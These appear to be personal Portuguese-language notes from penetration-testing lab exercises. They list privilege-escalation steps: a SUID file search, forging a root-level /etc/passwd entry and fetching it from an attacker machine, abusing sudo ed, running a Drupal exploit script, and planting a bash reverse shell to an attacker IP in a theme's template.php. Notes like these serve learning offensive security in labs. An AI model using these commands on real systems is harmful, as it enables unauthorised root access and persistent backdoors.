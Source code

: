 	*nc -lnvp 
	*abrir o arquivo(*criar um html*) no server
	
	*encontrando arqivos suid
		find / -perm -u=s -type f 2>/dev/null
	
	*passwd
		criar um com base do alvo, adicionar user
			pcpc:hash_opensll:0:0:root:/root:/bin/bash   -> igual do root, porém user diferente e com hash senha no lugar do x
				senha default linux -> openssl passwd -1 -salt pcpc batata
				
	*simple server com python
		python -m SimpleHHTPServer 8081
		
	*baixar o novo arquivo passwd do kali
		wget http://ip_kali:8081/passwd
		erro no nome arquivo -> saida de passwd vai para passwd -> wget  -O passwd http://ip_kali:8081/passwd
		
		su pcpc 
			pass -> batata
			root pois está no mesmo grupo
			

#Dia 8 			14/9/2020

	*scan padrão
	
	*ftp login
		anonymous
			get backp -> baixar o arquivo lá
			
		*quebrar credencial
				john backup
		
		*ssh login
			sudo -l
				sudo /usr/bin/ed   /etc/passwd 
				a -> append

				*adicionar usario ao arquivo
					openssl passwd -1 -salt usuario senha 		
						pcbeco:$1$pcbeco$F6qnmjD.aaKG2d0n2OATa1:0:0:root:/root:/bin/bash

				.
				w /etc/passwd

#Dia 9 			15/9/2020
	
	*scan
	
	*searchsploit drupal
			34992.py
				explo.py
				drupalpass.py
					explo.py http://192.168.100.11/node?destination=node batman robin
					
	* appearence
		themes
			baixar qualquer um
				template.php
					adcionar codigo malicioso
						exec("/bin/bash -c  'bash -i >& /dev/tcp/192.168.100.x/443 0>&1'");
